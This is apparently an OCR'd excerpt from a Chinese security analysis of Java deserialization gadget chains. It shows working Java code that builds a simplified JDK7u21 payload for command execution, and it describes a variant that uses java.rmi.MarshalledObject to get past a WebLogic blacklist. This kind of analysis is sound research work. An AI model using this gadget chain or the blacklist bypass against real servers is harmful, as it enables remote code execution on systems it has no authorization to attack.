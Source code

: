 在了解清楚这个问题后，我们就可以对调用链进行简化 JDK7u21Lite

```java
public Object getObject(String command) throws Exception {
    Object templates = Gadgets.createTemplatesImpl(command);

    InvocationHandler handler = (InvocationHandler) Reflections.getFirstCtor(Gadgets.ANN_INV_HANDLER_CLASS).newInstance(Override.class, new HashMap<>());
    Reflections.setFieldValue(handler, "type", Templates.class);
    Templates proxy = Gadgets.createProxy(handler, Templates.class);

    String zeroHashCodeStr = "f5a5a608";

    LinkedHashSet set = new LinkedHashSet();
    set.add(templates);
    set.add(proxy);

    HashMap map = new HashMap();
    map.put(zeroHashCodeStr, templates);

    Reflections.setFieldValue(handler, "memberValues", map);
    return set;
}
```

# JDK7u21variant

## 0x06 MarshalledObject

这个调用链的写法其实是对 Weblogic 黑名单的一个绕过 `com.sun.org.apache.xalan.internal.xsltc.trax` 被加入了黑名单，weblogic 的 poc 是用的 `weblogic.corba.utils.MarshalledObject` 来封装，JDK7u21variant 用的是 `java.rmi.MarshalledObject` 。

之前在 JDK7u21 的分析中说到 `getMemberMethods()` 会执行所有的方法，那么如果存在一个新的 kick-off 能调用之前 JDK7u21 的 gadget 也同样可以执行。

在 `java.rmi.MarshalledObject#get()` 方法中，会读取 objBytes 并反序列化。

![image-20230802111202233](attachments/image-20230802111202233.png)

